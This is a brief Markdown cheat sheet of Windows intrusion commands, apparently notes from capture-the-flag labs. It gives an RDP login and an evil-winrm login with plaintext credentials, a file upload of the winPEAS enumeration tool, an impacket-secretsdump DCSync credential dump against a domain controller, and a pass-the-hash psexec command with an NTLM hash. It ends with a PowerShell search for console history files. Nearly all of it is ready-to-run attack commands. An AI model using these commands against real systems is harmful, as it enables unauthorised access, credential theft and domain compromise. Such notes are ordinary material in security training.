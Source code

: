 # Windows Commands

Used to gain access through RDS.
```
xfreerdp /v:10.10.29.125 /u:thm-unpriv /p:Password321 +clipboard
```

#### Evil-WinRm

connect to system with eveil-winrm
```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```
command to upload files through win-rm
```
upload ~/windows_programs/winPEASany.exe
```

#### DCSync Attack
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

#### Pass-the-Hash attack
```
impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

##### look for Console_Host_History file 
```
Get-ChildItem -Path C:\ -Include ConsoleHost_history.txt -File -Recurse -ErrorAction SilentlyContinue
```
